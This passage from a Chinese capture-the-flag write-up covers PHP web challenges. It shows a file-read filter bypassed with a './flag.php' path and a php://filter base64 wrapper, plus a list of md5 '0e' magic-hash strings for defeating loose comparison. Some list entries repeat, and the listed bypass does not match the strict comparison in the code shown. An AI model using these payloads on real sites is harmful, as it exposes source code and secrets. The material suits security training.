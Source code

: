 把小数点过滤了

```
八进制：%0a010574 、+010574 、%20010574
```

## 96-./

```php
if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

思路是利用`highlight_file`来读取，但是传入的u不能为flag.php

linux下./表示当前路径

```
?u=./flag.php
```

也可以伪协议读：

```
?u=php://filter/read=convert.base64-encode/resource=flag.php
```

## 97-md5

```php
if (isset($_POST['a']) and isset($_POST['b'])) {
	if ($_POST['a'] != $_POST['b'])
        if (md5($_POST['a']) === md5($_POST['b']))
            echo $flag;
        else
            print 'Wrong.';
}
```

经典的md5强弱比较

弱比较绕过：

```
一些md5编码后得到0exxx（此处xxx为十进制字符）的字符串
原字符串					md5值
QNKCDZO			0e830400451993494058024219903391
240610708		0e462097431906509019562988736854
aabg7XSs		0e087386482136013740957780965295
aabC9RqS		0e041022518165728065344349536299
s878926199a		0e545993274517709034328855841020
s155964671a		0e342768416822451524974117254469
s214587387a		0e848240448830537924465865611904
s214587387a		0e848240448830537924465865611904
s878926199a		0e545993274517709034328855841020
s1091221200a	0e940624217856561557816327384675
s1885207154a	0e509367213418206700842008763514
qebi7zl0		0e649420541288950724577306786996
qebaur5g		0e352312259284787676841028696030
qe20k7jl		0e416004725936696827118806457976
qe9vwdjf		0e288029216666843876260611249898
```
